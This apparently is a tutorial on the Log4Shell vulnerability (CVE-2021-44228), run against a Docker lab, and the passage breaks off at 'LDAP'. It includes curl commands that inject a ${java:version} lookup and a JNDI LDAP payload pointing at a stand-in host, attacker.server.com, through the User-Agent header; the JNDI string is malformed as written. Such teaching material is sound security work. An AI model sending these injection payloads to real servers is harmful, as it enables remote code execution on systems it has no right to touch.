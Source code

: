 # Log4J / CVE-2021-44228
    Versions: All versions from 2.0-beta9 to 2.16


CVE-2021-44228 or Log4Shell is a vulnerability found in the Java library with the maximum criticality score of CVSS 10/10. The library named Log4j got this rating because besides being very popular, it grants access to Remote Code Execution (RCE).

It is still used by many companies of all types and sizes and even after months of its discovery being made public, a lot of hosts still haven't updated their software. Here in this article, I present a way to run the exploit so that you can understand the vulnerability and prevent it from being exploited on your system and also explain a little about your application.

Your first targets are usually data entry points like username and password logins, http headers like User-Agent, X-Forwarded-For and others. Basically anywhere the user can provide data.

To perform this exploit, I used a vulnerable and easy-to-apply LAB available in this [GIT](https://github.com/leonjza/log4jpwn).

![docker](https://user-images.githubusercontent.com/66689576/160430502-abc2c99e-7a65-48d5-913d-f165442ef757.png)

With docker running on port 8080, we can start to identify if the server is vulnerable to log4shell or not.
It may be interesting to check the version of Log4J, if there is a log where you can insert some information that the application does not consider as a string, as well as an endpoint with some protocol such as HTTP for example, which may allow sending a malicious string.

At first, I will use **curl** to send a request to the server, requesting the java version from the User-Agent.

    curl -v -H 'User-Agent: ${java:version}' '172.17.0.1:8080/'

Making the server run it: 

![ua](https://user-images.githubusercontent.com/66689576/160430578-9caa5e17-129b-4bc3-a7fd-1e574ac4fc2e.png)

Now we can get a little better look at what's to come. If in our request, we use the **JNDI** (Java Naming and Directory Interface) protocol, it becomes possible to execute some malicious payload inside the server, thus triggering the log4j vulnerability, which, after execution, makes the server returns us a Java classpath, which was injected earlier.

This injected payload when triggered, gives the attacker access to execute arbitrary code. 

	curl -v -H 'User-Agent: ${jndi:ldap//:attacker.server.com/payload}' '172.17.0.1:8080/'
	
JNDI is an independent API that gives access to directory services, bringing objects or data to the client side through information (name). Its two basic functions are to associate a name with a resource and to find a resource by its name. 
LDAP
